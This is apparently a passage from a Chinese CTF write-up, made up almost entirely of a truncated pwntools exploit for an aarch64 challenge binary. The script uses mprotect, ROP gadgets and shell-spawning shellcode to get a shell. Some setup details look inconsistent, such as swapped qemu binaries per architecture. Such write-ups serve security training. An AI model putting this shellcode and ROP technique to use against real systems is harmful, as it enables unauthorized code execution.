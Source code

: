 这样的话很容易就能总结出exp来：

exp
---

```python
#encoding = utf-8
import sys
import time
from pwn import *
from LibcSearcher import * 

context.log_level = "debug"
context.arch = 'aarch64'
context.os = 'linux'

binary = "pwn"
libcelf = ""
ip = ""
port = ""
local = 1
arm = 1
core = 64

og = [0x4342,0x3342]

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

if(local==1):
    if(arm==1):
        if(core==64):
            p = process(["qemu-arm", "-g", "1212", "-L", "/usr/arm-linux-gnueabi",binary])
        if(core==32):
            p = process(["qemu-aarch64", "-g", "1212", "-L", "/usr/aarch64-linux-gnu/", binary])
    else:
        p = process(binary)
else:
    p = remote(ip,port)

elf = ELF(binary)
libc = ELF(libcelf)

mprotect_plt = elf.plt['mprotect']
gadget1 = 0x4008CC
gadget2 = 0x4008AC
mprotect_addr = 0x411068#bss
shellcode_addr = 0x411070
shellcode = asm(shellcraft.aarch64.sh())

def pwn():
    payload = p64(mprotect_plt)
    payload += shellcode
    sa('Name:',payload)

    payload = 'a'*0x48
```